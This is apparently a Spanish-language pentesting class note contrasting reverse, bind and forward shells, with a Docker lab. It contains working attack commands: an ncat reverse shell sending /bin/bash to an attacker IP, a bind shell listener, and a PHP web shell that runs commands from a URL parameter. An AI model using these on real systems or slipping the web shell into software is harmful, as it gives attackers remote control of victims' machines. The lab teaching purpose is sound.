 En esta clase, veremos las diferencias entre Reverse Shell, Bind Shell y Forward Shell:

- **Reverse Shell**: Es una técnica que permite a un atacante conectarse a una máquina remota desde una máquina de su propiedad. Es decir, se establece una conexión desde la máquina comprometida hacia la máquina del atacante. Esto se logra ejecutando un programa malicioso o una instrucción específica en la máquina remota que establece la conexión de vuelta hacia la máquina del atacante, permitiéndole tomar el control de la máquina remota.

- **Bind Shell**: Esta técnica es el opuesto de la Reverse Shell, ya que en lugar de que la máquina comprometida se conecte a la máquina del atacante, es el atacante quien se conecta a la máquina comprometida. El atacante escucha en un puerto determinado y la máquina comprometida acepta la conexión entrante en ese puerto. El atacante luego tiene acceso por consola a la máquina comprometida, lo que le permite tomar el control de la misma.

- **Forward Shell**: Esta técnica se utiliza cuando no se pueden establecer conexiones Reverse o Bind debido a reglas de Firewall implementadas en la red. Se logra mediante el uso de **mkfifo**, que crea un archivo **FIFO** (**named pipe**), que se utiliza como una especie de “**consola simulada**” interactiva a través de la cual el atacante puede operar en la máquina remota. En lugar de establecer una conexión directa, el atacante redirige el tráfico a través del archivo **FIFO**, lo que permite la comunicación bidireccional con la máquina remota.

Es importante entender las diferencias entre estas técnicas para poder determinar cuál es la mejor opción en función del escenario de ataque y las limitaciones de la red.

## Crear Entorno en Docker
### Crear un Docker file
```dockerfile
FROM ubuntu:latest

ENV DEBIAN_FRONTEND noninteractive

RUN apt update && apt install -y apache2 \
  php

EXPOSE 80

ENTRYPOINT service apache2 start && /bin/bash
```
#### Ejecutar 
```bash
## Contruir Imagen
docker build -t my_image .

## Construir contenedor
docker run -dit -p 80:80 --cap-add=NET_admin --name myContainer my_image

## Ejecutar contenedor
docker exec -it myContainer bash 
```
## Reverse Shell 
```bash
## Maquina Atacante
nc -nlvp 443

## Maquina Victima
ncat -e /bin/bash <IP-Atacante> <PORT>
# Ejemplo 👇
ncat -e /bin/bash 172.17.0.1 443

## Poner un prompt en la consola interactiva
script -c /dev/null -c bash
```
## Bind Shell
```bash
## Maquina Victima
ncat -nlvp 443 -e /bin/bash

## Maquina Atacante
nc <IP-Victima> <PORT>

## Poner un prompt en la consola interactiva
script -c /dev/null -c bash
```

## **📊 Diferencias Clave**

| Característica                              | Reverse Shell | Bind Shell  |
| ------------------------------------------- | ------------- | ----------- |
| **Quién inicia la conexión**                | La víctima    | El atacante |
| **Necesita que el atacante abra un puerto** | ✅ Sí          | ❌ No        |
| **Fácil de usar detrás de un firewall/NAT** | ✅ Sí          | ❌ No        |
| **Riesgo de detección en la víctima**       | 🔥 Alto       | ⚠️ Medio    |
## Forward Shell

- Podemos crear un archivo `cmd.php` para tener ejecución remota de comandos.
```php
<?php
	echo "<pre>" . shell_exec($_GET['cmd']) . "</pre>";
?>
```
- Este archivo lo podemos poner en la ruta del servidor como: `/var/www/html`
- Logramos la ejecución de comandos cuando en la URL ponemos: 
	`http://localhost/cmd.php?cmd=<COMANDO>`

